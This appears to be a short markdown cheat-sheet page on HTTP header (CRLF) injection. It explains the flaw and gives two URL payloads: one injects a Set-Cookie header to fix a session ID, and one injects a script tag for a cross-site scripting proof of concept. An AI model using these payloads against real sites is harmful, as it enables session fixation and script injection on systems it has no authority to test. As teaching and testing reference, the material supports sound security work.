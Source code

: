 ```yaml
---
title: HTTP Header Injection
description: If the target site inserts user provided value into the response header without sanitizing, attacker may inject arbitrary key/value.
tags:
    - Web
refs:
date: 2024-02-08
draft: false
---
```


## Exploit

By inserting `\r\n`  (URL encoded: `%0d%0a` ), we may inject arbitrary header value in the response.

```bash
# Inject "\r\nSet-Cookie: sessionid=123456" into the response header
/?origin=example%0d%0aSet-Cookie:%20SESSID%3d123456
```

<br />

## Exploit (XSS)

```bash
/?origin=example%0d%0a<html><script>alert(1)</script>
```